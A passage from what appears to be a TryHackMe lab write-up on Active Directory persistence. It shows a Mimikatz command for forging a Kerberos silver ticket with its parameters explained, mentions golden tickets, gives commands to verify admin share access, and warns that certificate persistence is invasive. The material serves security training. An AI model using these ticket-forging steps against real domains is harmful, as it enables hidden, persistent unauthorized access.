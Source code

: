 We can verify that the golden ticket is working by running the dir command against the domain controller:

- **Terminal**      

```powershell
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>dir \\thmdc.za.tryhackme.loc\c$\
```

Even if the golden ticket has an incredibly long time, the blue team can  still defend against this by simply rotating the KRBTGT password twice.  If we really want to dig in our roots, we want to generate silver  tickets, which are less likely to be discovered and significantly harder to defend against since the passwords of every machine account must be  rotated. We can use the following Mimikatz command to generate a silver  ticket:

- **Mimikatz Terminal**      

```powershell
mimikatz # kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```

Parameters explained:

- **/admin** - The username we want to impersonate. This does not have to be a valid user.
- **/domain** - The FQDN of the domain we want to generate the ticket for.
- **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID. 
- **/sid** -The SID of the domain we want to generate the ticket for.
- **/target** - The hostname of our target server. Let's do THMSERVER1.za.tryhackme.loc, but it can be any domain-joined host.
- **/rc4** - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of THMSERVER1$. The $ indicates that  it is a machine account.
- **/service** - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.
- **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.

We can verify that the silver ticket is working by running the dir command against THMSERVER1:

- **Terminal**      

```powershell
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>dir \\thmserver1.za.tryhackme.loc\c$\
```

Now we have golden and silver tickets to the AD environment, providing better persistence than just credentials!

# Persistence through Certificates

**A quick note here. The techniques discussed from this  point forward are incredibly invasive and hard to remove. Even if you  have signoff on your red team exercise to perform these techniques, you  must take the utmost caution when performing these techniques. In  real-world scenarios, the exploitation of most of these techniques would result in a full domain  rebuild. Make sure you fully understand the consequences of using these  techniques and only perform them if you have prior approval on your  assessment and they are deemed necessary. In most cases, a red team  exercise would be dechained at this point instead of using these  techniques. Meaning you would most likely not perform these persistence  techniques but rather simulate them.**
